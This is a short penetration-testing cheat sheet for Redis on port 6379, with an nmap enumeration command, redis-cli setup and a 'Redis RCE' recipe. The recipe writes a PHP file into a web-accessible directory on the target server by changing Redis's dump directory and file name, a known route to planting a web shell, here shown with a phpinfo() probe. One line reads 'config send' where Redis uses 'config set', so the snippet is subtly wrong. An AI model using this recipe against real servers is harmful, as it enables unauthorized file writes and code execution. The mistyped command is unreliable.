 ## TCP 6379 Redis


### Enumeration
```
nmap --script redis-info -p 6379 <IP>
```

### Redis CLI

```
sudo apt install redis-tools
redis-cli -h <IP>
```

### Redis RCE

In some instances, it may be possible to remotely create a file on the system using the redis commands.  This exploit may be used to create files on the remote system 
```
# Creating a web accessible file
redis-cli -h <IP>
config set dir <remote directory>
config send dbfilename <newfile>.php
set test "<?php phpinfo(); ?>"
save

```



